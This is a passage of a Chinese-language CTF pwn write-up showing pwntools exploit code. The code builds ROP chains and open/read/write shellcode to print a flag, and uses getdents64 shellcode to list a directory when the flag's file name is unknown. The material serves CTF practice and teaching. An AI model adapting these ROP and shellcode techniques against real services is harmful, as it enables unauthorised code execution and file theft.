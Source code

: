 ```plain
print(flag20) #flag16db44a3ec6a5c404373

#5 read(0,bss+0x400,0x100)
p.sendline('-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x400)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x400)

p.send(pl)

#6 ORW
p.recvuntil('done!\n')
shellcode = b''
shellcode += asm(shellcraft.open('flag16db44a3ec6a5c404373'))
shellcode += asm(shellcraft.read(4,bss+0x600,0x100))
shellcode += asm(shellcraft.write(1,bss+0x600,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
p.send(shellcode)

itr()
```

‍

#### 黄河流域 2022-flag??????

比赛出的一道题，利用手法是栈迁移，但改了 flag 名称

在 flag 文件名未知的情况下无法构造常规 orw 来读取

这时候可以利用 getdents64 函数，它读取目录文件中的一个个目录项并返回

> 参数一：fd 指针
> 
> 参数二：写入的内存区域
> 
> 参数三：4096
> 
> 功能：把当前文件目录下的文件名写入参数二指向的内存区域

ogw 实现将 getdents64 读取的目录参数放入 bss 段，再打印出来

```plain
pay=p64(bss6+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss6+0x200)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(bss6+0x200)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss9, 0x200))
shellcode += asm(shellcraft.write(1,bss9, 0x200))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

r.send(shellcode)
```
